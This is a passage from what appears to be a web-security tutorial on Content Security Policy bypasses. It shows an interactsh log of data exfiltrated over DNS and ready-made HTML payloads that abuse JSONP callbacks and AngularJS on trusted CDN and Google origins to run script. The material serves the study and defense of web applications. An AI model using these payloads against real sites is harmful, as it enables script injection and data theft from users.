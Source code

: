 Finally, we receive DNS requests on the `interactsh-client` that we can [decode](https://gchq.github.io/CyberChef/#recipe=To\_Upper\_case\('All'\)From\_Base32\('A-Z2-7%3D',true\)\&input=akJzd1kzZFBmcXFITzMzU25yc2NjSWNpTVZ3R3kzek1FYjN3NjRUTU1RcVNBU2RmTnJXZzZsYmFvNXhYZTNkLmVlRXFlUVpMbW5yWHNZaUR4TjV6Z3laQkJFYkVHSzNkTU40d2NBNTNwb2p3R0lJakFKQlNXeTNEcEZxcUhPMy4zc25Sc2NDSWNpTVZXZ1kzek1lYjN3NjR0bU1RcVNBU0RGTnJ3ZzZsYkFvNVhYZTNkZWVFUWE):

{% code title="interactsh-client" overflow="wrap" %}
```log
...
[jbswY3dpfqqHo33snrSccICiMvwGY3zMeB3w64TMMqqsaSdfNRwg6LBao5xxe3d.eEeqEqzLMnrxSyIdXn5ZGyZbBEBEGK3dmN4WcA53pojWGIijAjbsWy3dPfQqHO3.3SNrScCIciMVwgY3zMEB3W64tmmqqSASDfnrWG6LbaO5xXe3DeEeQa.CkJbCs2q8GudlQGiTungUCqgux7BFhahq] Received DNS interaction (A) from 74.125.114.204
```
{% endcode %}

#### CDNs in `script-src` (AngularJS Bypass + JSONP)

Every origin in this directive is trusted with all URLs it hosts. A common addition here is CDN (Content Delivery Network) domains that host many different JavaScript files for libraries. While in very unrestricted situations a CDN like [unpkg.com](https://www.unpkg.com/) will host **every file on NPM**, even malicious ones, others are less obvious.&#x20;

The [cdnjs.cloudflare.com](https://cdnjs.cloudflare.com) or [ajax.googleapis.com](https://ajax.googleapis.com/) domains for example host **only specific** popular libraries which should be secure, but some have exploitable features. The most well-known is AngularJS, which a vulnerable site may also host themselves removing the need for a CDN. This library searches for specific patterns in the DOM that can define event handlers without the regular inline syntax. This bypasses the CSP and can allow arbitrary JavaScript execution by loading such a library, and including your own malicious content in the DOM:

<pre class="language-html"><code class="lang-html">&#x3C;!-- *.googleapis.com -->
<strong>&#x3C;script src="https://www.googleapis.com/customsearch/v1?callback=alert(document.domain)">&#x3C;/script>
</strong>&#x3C;!-- *.google.com -->
<strong>&#x3C;script src="https://accounts.google.com/o/oauth2/revoke?callback=alert(1337)">&#x3C;/script>
</strong>&#x3C;!-- ajax.googleapis.com (click) + maps.googleapis.com (no click) -->
<strong>&#x3C;script src=https://ajax.googleapis.com/ajax/libs/angularjs/1.8.2/angular.min.js>&#x3C;/script>
</strong><strong>&#x3C;div ng-app ng-csp id=x ng-click=$event.view.alert($event.view.document.domain)>&#x3C;/div>
</strong><strong>&#x3C;script async src=https://maps.googleapis.com/maps/api/js?callback=x.click>&#x3C;/script>
</strong>&#x3C;!-- cdnjs.cloudflare.com -->
<strong>&#x3C;script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.2/prototype.js">&#x3C;/script>
</strong><strong>&#x3C;script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.js">&#x3C;/script>
</strong><strong>&#x3C;div ng-app ng-csp>{{$on.curry.call().alert($on.curry.call().document.domain)}}&#x3C;/div>
</strong></code></pre>

Loading any of these blocks in a CSP that allows it, will trigger the `alert(document.domain)` function. A common pattern for finding these bypasses is using Angular to create an environment where code can be executed from **event handlers**, and then another library or callback function to **click** on the element, triggering the handler with your malicious code.&#x20;
